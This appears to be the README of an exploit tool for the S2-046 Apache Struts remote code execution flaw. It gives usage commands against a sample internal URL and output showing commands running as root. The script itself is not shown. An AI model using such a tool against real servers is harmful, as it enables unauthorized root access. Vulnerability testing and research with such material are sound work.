 # S2-046_POC
##  Usage:
    ./s2_046.sh [url]
    
##  Sample:
  
  1. chmod +x ./s2_046.sh       
  2. ./s2_046.sh http://172.16.152.135/index.action`
    
##  OUTPUT:
================HTTP GET Method================
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_java_t:s0-s0:c0.c1023
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_java_t:s0-s0:c0.c1023
================HTTP POST Method================
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_java_t:s0-s0:c0.c1023
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_java_t:s0-s0:c0.c1023
